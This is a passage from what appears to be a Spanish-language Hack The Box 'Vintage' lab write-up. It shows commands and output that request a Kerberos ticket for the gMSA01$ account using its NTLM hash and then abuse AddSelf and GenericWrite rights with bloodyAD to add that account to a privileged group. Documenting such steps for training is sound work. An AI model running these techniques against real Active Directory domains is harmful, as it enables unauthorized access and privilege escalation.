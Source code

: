 Ahora tendremos la capacidad de autenticarnos como `gMSA01$` en el dominio, podemos obtener un TGT válido y usar autenticación `kerberos`

~~~ bash
getTGT.py vintage.htb/'gMSA01$' -hashes :b3a15bbdfb1c53238d4b50ea2c4d1178 -dc-ip 10.10.11.45      
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in gMSA01$.ccache
~~~


## Abusing AD DACL - `AddSelf` and `GenericWrite` Rights

La cuenta `gMSA01$` tiene la capacidad de agregarse a sí misma al grupo `Service Managers` utilizando los derechos `AddSelf`, además de poseer derechos `GenericWrite`, lo que permite editar atributos del grupo en cuestión

![image-center](/assets/images/posts/vintage-bloodhound-3.png)
{: .align-center}
 
Utilizando el ticket, agregaremos a la cuenta `gMSA01$` al grupo `Service Managers` utilizando `bloodyAD`

~~~ bash
export KRB5CCNAME=gMSA01\$.ccache

bloodyAD --host dc01.vintage.htb -d vintage.htb -k add groupMember "CN=SERVICEMANAGERS,OU=PRE-MIGRATION,DC=VINTAGE,DC=HTB" 'gMSA01$'

[+] gMSA01$ added to CN=SERVICEMANAGERS,OU=PRE-MIGRATION,DC=VINTAGE,DC=HTB
~~~

Con el siguiente comando podremos comprobar que el usuario `gMSA01$` ha sido agregado al grupo `Service Managers`

~~~ bash
bloodyAD --host "dc01.vintage.htb" -d "vintage.htb" -k get object "CN=SERVICEMANAGERS,OU=PRE-MIGRATION,DC=VINTAGE,DC=HTB" --attr member
~~~
